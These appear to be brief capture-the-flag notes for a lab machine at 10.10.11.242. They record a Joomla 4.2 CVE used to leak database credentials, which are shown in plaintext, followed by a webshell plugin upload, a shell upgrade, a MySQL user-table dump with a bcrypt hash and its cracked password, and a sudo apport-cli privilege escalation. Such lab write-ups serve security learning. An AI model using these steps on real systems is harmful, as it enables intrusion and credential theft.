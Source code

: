 10.10.11.242

Enum directory x

enum subdomain -> dev.

joomla 4.2 cve enum db username & pass 


					lewis
					P4ntherg0t1n5r3c0n##

plugin upload webshell joomla

python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

mysql -u lewis -p -h localhost 
P4ntherg0t1n5r3c0n##

select * from sd4fg_users

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

tequieromucho

apport-cli //

ls /var/crash/
sudo /usr/bin/apport-cli -c /var/crash/some_crash_file.crash

